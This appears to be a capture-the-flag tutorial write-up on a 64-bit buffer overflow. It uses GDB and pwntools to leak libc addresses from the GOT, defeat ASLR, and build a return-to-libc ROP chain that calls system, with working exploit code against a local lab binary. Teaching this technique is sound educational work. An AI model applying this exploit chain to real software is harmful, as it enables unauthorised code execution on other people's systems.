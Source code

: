 # Writeup

## Forward

You may have noticed the use of:

```c
__attribute__((force_align_arg_pointer))
```

In a few of the previous challenges. I have not mentioned it until now as it would only confuse matters. For this challenge, however, it is important.

Certain `x86` instructions require that the memory addresses they operate on are 16-byte aligned. One such instruction is `movaps` which will cause a segmentation fault if one of the operands is misaligned. This instruction is often present in `system` and operates on `rsp` which means that issues can arise if `rsp` is not 16-byte aligned after the function is called. Generally this is not an issue as the compiler ensures this alignment but when doing ROP it is something we must be wary of.

The `force_align_arg_pointer` attribute was used in previous challenges to mitigate this issue by adding a prologue to the `win` functions which realigned `rsp`.

[This](https://www.cameronwickes.com/stack-alignment-ubuntu-18-04-movaps/) blog article goes into more detail if you are interested.

## Static Analysis

This time there is no `win` function. We have `target` again and the `vuln` function has been modified:

```c
void vuln(void) {
    char *hint = target;
    char buffer[16];

    printf("Enter your name: ");
    fgets(buffer, 1024, stdin);
    printf("Hello, %s", buffer);

    printf("You might want to find a way of running \"%s\".\n", hint);

    return;
}
```

A new local variable, `hint`, has been added which is used to display a message using `printf`.

There are no calls to `system` in the program so there is no obvious place to return to. There are, however, other standard library functions that are used such as `fgets` and `printf` which means that `libc` and thus the `system` function itself must be somewhere in memory and in such a large codebase there must be the ROP gadgets required to set the argument registers from the stack.

There are a couple of issues with this plan, one of which is ASLR (Address Space Layout Randomisation). This security feature means that the memory address of `libc` changes every time the program is run. This can be defeated by leaking an address and using the overflow to overwrite `hint` gives us a method to do just this.

The second issue is that `libc` varies between operating systems meaning something that works on my local machine may not work remotely. In this case we are given a `Dockerfile` so that we can replicate the remote environment but we will treat it as if we were going in blind and use a different method for determining the remote version.

## Dynamic Analysis

Let's start by running the program in GDB with our standard input string:

```
gdb ./vuln
r
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz
```

This time the program faults in `printf` because of the invalid address `0x6665646362615a59` (`YZabcdef`) which is an offset of 24. Using `f 5` and `p hint` we see that we overwrote `hint` and therefore caused `printf` to try and output data from an invalid memory location. Looking at the back trace panel of the context display we can see `0x767574737271706f` (`opqrstuv`) which means the offset to the return address is 40.

Let us consider what happens when a standard library function such as `printf` is called. If we do `disass vuln` we see that `printf@plt` is called. If we enter `plt` we can see that there are also PLT (Procedure Linkage Table) entries for the other `libc` functions that we call:

```
0x401030: printf@plt
0x401040: fgets@plt
0x401050: setvbuf@plt
```

Now let's do `disass 0x401030` to see the assembly for this function:

```assembly
0x0000000000401030 <+0>:     jmp    QWORD PTR [rip+0x2fe2]        # 0x404018 <printf@got.plt>
```

All it does is jump to the address stored at `printf@got.plt`. Typing `got` shows us that the other standard library functions also have GOT (Global Offset Table) entries and that `printf@got.plt` just stores the address of `printf`:

```
[0x404018] printf@GLIBC_2.2.5 -> 0x7ffff7e44cf0 (printf) ◂— sub    rsp, 0xd8
[0x404020] fgets@GLIBC_2.2.5 -> 0x7ffff7e629c0 (fgets) ◂— test   esi, esi
[0x404028] setvbuf@GLIBC_2.2.5 -> 0x7ffff7e64cd0 (setvbuf) ◂— push   r14
```

So why is this roundabout method used of calling `printf` used? Why don't we just call it directly?

The short answer is we can't. Because of ASLR and having to run on different systems it is impossible to know where the `libc` functions are at compile time. Calls are instead made to a wrapper function in the PLT. When the program is executed, the GOT is populated with the requisite addresses which are jumped to by the wrapper functions.

We can use the GOT in combination with our `hint` overwrite to leak a `libc` address and defeat ASLR (thus solving our first problem). If we can leak multiple addresses it is possible to solve our second problem matching the offsets between them to a database of `libc` versions.

## Exploit

This exploit will be quite complex so we will definitely want to use Pwntools:

```
pwn template vuln --host 127.0.0.1 --port 42006 --quiet > exploit.py
```

First we need to engineer our leak. As we want to leak multiple addresses we can set the return address to `vuln` which allows us to exploit the buffer overflow multiple times. Unfortunately this will cause the stack to become misaligned so we will have to use a `ret` gadget such as the one at `vuln+110` to realign it.

After the leaked data has been outputted we will need to convert it from a series of bytes to an integer. `printf` will stop outputting when it hits a null byte so we will have to use `.ljust` to add any that have been removed. After this we can use `u64` to unpack the bytes into an integer.

All of this can be put in a function so that we can reuse it as much as we need:

```python
ret = exe.sym.vuln + 110

def leak(address):
    # ret needed to keep stack aligned
    io.sendlineafter("Enter your name: ", flat({
        24: address,
        40: [ret, exe.sym.vuln]
    }))

    io.recvuntil("running \"")
    return u64(io.recvuntil("\".", drop=True).ljust(8, b"\0"))
```

GOT addresses can be accessed using `exe.got`. Adding:

```python
print(f"printf: 0x{leak(exe.got.printf):016x}")
print(f"fgets: 0x{leak(exe.got.fgets):016x}")
print(f"setvbuf: 0x{leak(exe.got.setvbuf):016x}")
```

And running the exploit remotely will leak the three `libc` addresses. We can use https://libc.blukat.me/ to search the a `libc` database for these offsets. Doing so will show three results. Whilst any will probably work I will use the `libc6_2.31-0ubuntu9.2_amd64` one and download the binary. The local `libc` binary can be found at `/lib/x86_64-linux-gnu/libc.so.6`.

At this point we will have to vary our exploit depending on if we are running locally or remotely as the `libc` builds will differ. We can do this by testing `args.LOCAL`.

Pwntools provides a class called `ELF` to represent an ELF binary. The `exe` that we have used already is an instance of this class. We can create an instances for our `libc` binaries in order to provide a convenient interface:

```python
if args.LOCAL:
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    libc = ELF("libc6_2.31-0ubuntu9.2_amd64.so")
```

Now we can calculate the base address if `libc` using our leak in order to defeat ASLR:

```python
libc.address = leak(exe.got.printf) - libc.sym.printf
```

Following this we will use a very powerful class provided by Pwntools, `ROP`. It takes an `ELF` instance as an argument:

```python
rop = ROP(libc)
```

We can use `rop.call` followed by `rop.build` to create a ROP chain that calls `system` with `target` as the argument. We still need to remember to use the `ret` gadget to align the stack:

```python
rop.call("system", (exe.sym.target,))

io.sendlineafter("Enter your name: ", flat({
    24: exe.sym.target,
    40: [ret, rop.build()]
}))
```

And that's it! The full exploit can be found in `exploit.py`.